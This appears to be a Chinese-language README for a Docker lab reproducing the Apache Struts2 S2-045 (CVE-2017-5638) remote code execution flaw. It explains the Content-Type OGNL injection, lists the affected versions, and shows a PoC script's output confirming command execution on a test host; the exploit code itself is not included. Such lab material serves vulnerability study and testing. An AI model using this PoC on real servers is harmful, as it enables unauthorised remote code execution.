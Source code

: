 ##  S2-045（CVE-2017-5638）

struts2 045 
受影响：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

RCE远程代码执行漏洞，基于Jakarta Multipart解析器进行文件上传时，利用漏洞可进行远程代码执行。
由于当content-type中出现”multipart/form_data”时，会被认为有文件上传，从而调用struts2默认的上传文件组件Jakarta，通过组件漏洞载入OGNL代码并执行，从而达到远程调用的目的。
## 测试环境搭建

```
docker-compose build
docker-compose up -d
```


##  POC
```
执行测试
 python s2-045-poc.py http://10.160.11.191:8080/
[vulnerability exist] http://10.160.11.191:8080/
struts2-045
Debian GNU/Linux 9 \n \l

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <META HTTP-EQUIV="Refresh" CONTENT="0;URL=example/HelloWorld.action">
</head>

<body>
<p>Loading ...</p>
</body>
</html>
```

* 参考：Apache Struts是美国阿帕奇（Apache）软件基金会负责维护的一个开源项目，是一套用于创建企业级Java Web应用的开源MVC框架。
https://struts.apache.org/docs/security-bulletins.html

http://www.freebuf.com/vuls/128668.html


## 免责申明：文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负